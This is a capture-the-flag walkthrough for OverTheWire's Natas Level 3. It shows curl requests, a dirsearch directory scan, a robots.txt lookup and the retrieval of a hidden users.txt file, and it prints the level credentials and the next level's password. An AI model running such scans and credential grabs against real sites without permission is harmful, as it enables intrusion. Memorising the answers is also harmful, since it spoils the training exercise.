


# Natas Level 3

You can watch the walkthrough for this level here:  
[](https://www.youtube.com/watch?v=MXRSwA81ZH0)

> This video shows my full process solving (in Spanish) Level 3 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration

We start by checking the HTML content of this level using the `curl` command:

```bash
❯ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH  http://natas3.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

Indeed, this is how the webpage looks:



Since there’s no direct clue or comment with the password, we explore whether the webpage has hidden folders using dirsearch — a web path scanner you can learn more about in its [repository](https://github.com/maurosoria/dirsearch).

```bash
❯ dirsearch --auth=natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH --auth-type=basic -u http://natas3.natas.labs.overthewire.org

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/gaba/reports/http_natas3.natas.labs.overthewire.org/_25-05-28_15-54-44.txt

Target: http://natas3.natas.labs.overthewire.org/

[15:54:44] Starting: 
[15:54:56] 403 -  298B  - /.htaccess.orig
[15:54:56] 403 -  298B  - /.ht_wsr.txt
[15:54:56] 403 -  298B  - /.htaccess.bak1
[15:54:56] 403 -  298B  - /.htaccess.save
[15:54:56] 403 -  298B  - /.htaccess.sample
[15:54:56] 403 -  298B  - /.htaccess_extra
[15:54:56] 403 -  298B  - /.htaccess_sc
[15:54:56] 403 -  298B  - /.htaccessBAK
[15:54:56] 403 -  298B  - /.htaccess_orig
[15:54:56] 403 -  298B  - /.htm
[15:54:56] 403 -  298B  - /.htaccessOLD
[15:54:56] 403 -  298B  - /.htaccessOLD2
[15:54:56] 403 -  298B  - /.htpasswds
[15:54:56] 403 -  298B  - /.httr-oauth
[15:54:56] 403 -  298B  - /.htpasswd_test
[15:54:56] 403 -  298B  - /.html
[15:54:57] 403 -  298B  - /.php
[15:55:15] 403 -  298B  - /cgi-bin/
[15:55:22] 403 -  298B  - /error.tmpl
[15:55:42] 200 -   33B  - /robots.txt
[15:55:43] 403 -  298B  - /server-status/
[15:55:43] 403 -  298B  - /server-status

Task Completed
```
Interestingly, `dirsearch` found a **robots.txt** file, which is part of the Robots Exclusion Protocol — used to indicate to web crawlers which parts of a website they should not access. Let’s read it:
```bash
❯ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH  http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```
We check the **/s3cr3t/** directory directly:

```bash
❯ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH  http://natas3.natas.labs.overthewire.org/s3cr3t/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /s3cr3t</title>
 </head>
 <body>
<h1>Index of /s3cr3t</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="users.txt">users.txt</a></td><td align="right">2025-04-10 14:18  </td><td align="right"> 40 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.58 (Ubuntu) Server at natas3.natas.labs.overthewire.org Port 80</address>
</body></html>
```



✅ The users.txt file likely contains the credentials for the next level.

## 💣 Exploitation
Let’s retrieve the contents of the users.txt file by visiting the link or using curl:
```bash
❯ curl -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH  http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
✅ Here we find the credentials for natas4.

## 🔐 Password for Natas 4
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

